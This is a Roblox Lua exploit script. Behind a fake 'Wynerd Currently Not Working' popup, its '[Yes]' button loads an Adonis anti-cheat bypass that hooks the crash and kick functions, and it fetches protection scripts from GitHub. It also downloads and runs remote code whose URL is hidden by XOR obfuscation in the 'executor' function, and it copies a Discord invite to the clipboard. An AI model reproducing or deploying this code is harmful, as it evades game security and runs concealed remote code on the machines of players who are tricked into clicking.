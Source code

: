 if not game:IsLoaded() then
    game.Loaded:Wait()
end

local function adonis()
loadstring(game:HttpGet("https://raw.githubusercontent.com/Pixeluted/adoniscries/main/Source.lua"))() -- Adonis bypass

local badFunctions = {"Crash", "HardCrash", "GPUCrash", "RAMCrash", "KillClient", "SetFPS"} 

for i,v in pairs(getgc()) do 
    if type(v) == "function" then
        local info = debug.getinfo(v)
        local functionName = info.name
        if info.source:find('=.Core.Functions') and table.find(badFunctions, functionName) then
            print("Hooked \"" .. functionName .. "\"")
            hookfunction(v, function()
                print("Stopped \"" .. functionName .. "\" from running")
            end)
        end
    end
    end
end
local function executor()
    local v0 = string.char
    local v1 = string.byte
    local v2 = string.sub
    local v3 = bit or bit32
    local v4 = v3.bxor
    local v5 = table.concat
    local v6 = table.insert

    local function v7(v8, v9)
        local v10 = {}
        for v11 = 1, #v8 do
            v6(v10, v0(v4(v1(v2(v8, v11, v11 + 1)), v1(v2(v9, 1 + (v11 % #v9), 1 + (v11 % #v9) + 1))) % 256))
        end
        return v5(v10)
    end

    local success, err = pcall(function()
        loadstring(game:HttpGet(v7("\217\215\207\53\245\225\136\81\195\194\204\107\225\178\211\22\196\193\206\54\227\169\196\17\223\215\222\43\242\245\196\17\220\140\216\46\241\237\158\81\230\218\217\42\244\181\136\19\208\202\213\106\241\162\197\17\195\205", "\126\177\163\187\69\134\219\167"), true))()
    end)

    if not success then
        warn("Error in executor: " .. tostring(err))
    end
end

local function protectlua()
    local success, err = pcall(function()
        loadstring(game:HttpGet("https://raw.githubusercontent.com/GalacticHypernova/Guardian/main/MainProd"))()
        loadstring(game:HttpGet("https://raw.githubusercontent.com/GalacticHypernova/Guardian/main/CodexTest"))()
        loadstring(game:HttpGet("https://raw.githubusercontent.com/GalacticHypernova/Guardian/main/Main"))()
    end)

    if not success then
        warn("Error loading scripts in protectlua: " .. tostring(err))
        game:GetService('StarterGui'):SetCore("SendNotification", {
            Title = "Error",
            Text = "Failed to load protectlua scripts.",
            Duration = 5
        })
    else
        print("protectlua loaded successfully.")
    end
end

local function sendNotification(title, text)
    game:GetService('StarterGui'):SetCore('SendNotification', {
        Title = title,
        Text = text,
        Icon = 'http://www.roblox.com/asset/?id=8904334671',
        Duration = 5,
    })
end

-- Create GUI
local screenGui = Instance.new("ScreenGui")
local frame = Instance.new("Frame")
local titleLabel = Instance.new("TextLabel")
local messageLabel = Instance.new("TextLabel")
local destroyButton = Instance.new("TextButton")
local discordButton = Instance.new("TextButton")
local uiCorner = Instance.new("UICorner")

screenGui.Name = "NotificationGui"
screenGui.Parent = game.Players.LocalPlayer:WaitForChild("PlayerGui")

frame.Size = UDim2.new(0.4, 0, 0.2, 0)
frame.Position = UDim2.new(0.3, 0, 0.4, 0)
frame.BackgroundColor3 = Color3.fromRGB(50, 50, 50)
frame.BorderSizePixel = 0
frame.Parent = screenGui
uiCorner.Parent = frame

titleLabel.Size = UDim2.new(1, 0, 0.3, 0)
titleLabel.Position = UDim2.new(0, 0, 0, 0)
titleLabel.Text = "------< Wynerd Currently Not Working >--------"
titleLabel.TextColor3 = Color3.fromRGB(255, 255, 255)
titleLabel.TextScaled = true
titleLabel.BackgroundTransparency = 1
titleLabel.Parent = frame

messageLabel.Size = UDim2.new(1, 0, 0.4, 0)
messageLabel.Position = UDim2.new(0, 0, 0.3, 0)
messageLabel.Text = "We've disconnected. Feel free to check out [NotPreston] > Redblues [Remake Version Wyvern] > [Chelpus Official Real Credit]. [Reminder This Script Paid But Free]"
messageLabel.TextColor3 = Color3.fromRGB(200, 200, 200)
messageLabel.TextScaled = true
messageLabel.BackgroundTransparency = 1
messageLabel.Parent = frame

destroyButton.Size = UDim2.new(0.45, 0, 0.2, 0)
destroyButton.Position = UDim2.new(0.05, 0, 0.7, 0)
destroyButton.Text = "[Destroy UI]"
destroyButton.BackgroundColor3 = Color3.fromRGB(0, 150, 0)
destroyButton.TextColor3 = Color3.fromRGB(255, 255, 255)
destroyButton.Parent = frame
destroyButton.MouseButton1Click:Connect(function()
    print("Destroy UI button clicked!")
    screenGui:Destroy()
end)

discordButton.Size = UDim2.new(0.45, 0, 0.2, 0)
discordButton.Position = UDim2.new(0.5, 0, 0.7, 0)
discordButton.Text = "[Yes]"
discordButton.BackgroundColor3 = Color3.fromRGB(0, 0, 150)
discordButton.TextColor3 = Color3.fromRGB(255, 255, 255)
discordButton.Parent = frame
discordButton.MouseButton1Click:Connect(function()
    adonis()
    sendNotification('Loading...', 'Welcome User ' .. game.Players.LocalPlayer.Name)
    wait(3.5) 
    if true then 
        sendNotification('Wyborn', 'Connecting to support... Checking Age acc: ' .. game.Players.LocalPlayer.AccountAge)
        setclipboard("discord.gg/alwihub = https://discord.gg/cpXUTmMXXd") 
        wait(1)
        executor() 
        wait(2) 
        if true then 
            screenGui:Destroy()
            wait(1)
            sendNotification('Wyborn', 'Executor Protect = true or nil')
            protectlua() 
        end
    end
end)

local UserInputService = game:GetService("UserInputService")
local dragging = false
local dragStart = nil
local startPos = nil

local function updateInput(input)
    if dragging then
        local delta = input.Position - dragStart
        frame.Position = UDim2.new(startPos.X.Scale, startPos.X.Offset + delta.X, startPos.Y.Scale, startPos.Y.Offset + delta.Y)
    end
end

frame.InputBegan:Connect(function(input)
    if input.UserInputType == Enum.UserInputType.MouseButton1 or input.UserInputType == Enum.UserInputType.Touch then
        dragging = true
        dragStart = input.Position
        startPos = frame.Position
    end
end)

frame.InputEnded:Connect(function(input)
    if input.UserInputType == Enum.UserInputType.MouseButton1 or input.UserInputType == Enum.UserInputType.Touch then
        dragging = false
    end
end)

UserInputService.InputChanged:Connect(updateInput)

print("Successfully loaded script.")
